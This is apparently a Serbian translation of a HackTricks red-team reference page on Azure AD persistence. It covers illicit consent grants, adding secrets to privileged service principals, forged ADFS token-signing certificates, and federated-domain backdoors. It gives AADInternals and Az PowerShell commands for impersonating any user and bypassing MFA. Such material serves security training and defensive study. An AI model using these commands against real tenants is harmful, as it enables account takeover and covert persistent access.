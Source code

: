 # Az - Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Illicit Consent Grant

Podrazumevano, svaki korisnik može registrovati aplikaciju u Azure AD. Tako možete registrovati aplikaciju (samo za ciljni tenant) koja zahteva dozvole visokog uticaja uz admin saglasnost (odobrite je ako ste admin) - kao što je slanje maila u ime korisnika, upravljanje rolama itd. Ovo će nam omogućiti da **izvršimo phishing napade** koji bi bili veoma **plodonosni** u slučaju uspeha.

Štaviše, mogli biste takođe prihvatiti tu aplikaciju sa vašim korisnikom kao način da zadržite pristup.

### Applications and Service Principals

Sa privilegijama Administratora aplikacija, GA ili prilagođenom ulogom sa microsoft.directory/applications/credentials/update dozvolama, možemo dodati kredencijale (tajni ili sertifikat) postojećoj aplikaciji.

Moguće je **ciljati aplikaciju sa visokim dozvolama** ili **dodati novu aplikaciju** sa visokim dozvolama.

Zanimljiva uloga koju bi trebalo dodati aplikaciji bila bi **Uloga administratora privilegovanih autentifikacija** jer omogućava **resetovanje lozinke** Globalnim Administratorima.

Ova tehnika takođe omogućava **obići MFA**.

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* Za autentifikaciju zasnovanu na sertifikatima

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### Federacija - Sertifikat za potpisivanje tokena

Sa **DA privilegijama** na lokalnom AD-u, moguće je kreirati i uvesti **nove sertifikate za potpisivanje tokena** i **sertifikate za dekriptovanje tokena** koji imaju veoma dugu validnost. Ovo će nam omogućiti da **se prijavimo kao bilo koji korisnik** čiji ImuutableID poznajemo.

**Pokrenite** sledeću komandu kao **DA na ADFS serveru(ima)** da biste kreirali nove sertifikate (podrazumevani lozinka 'AADInternals'), dodali ih u ADFS, onemogućili automatsko obnavljanje i restartovali servis:
```powershell
New-AADIntADFSSelfSignedCertificates
```
Затим, ажурирајте информације о сертификату са Azure AD:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federation - Trusted Domain

Sa GA privilegijama na tenant-u, moguće je **dodati novu domenu** (mora biti verifikovana), konfigurisati njen tip autentifikacije na Federated i konfigurisati domenu da **veruje određenom sertifikatu** (any.sts u sledećoj komandi) i izdavaču:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## Reference

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
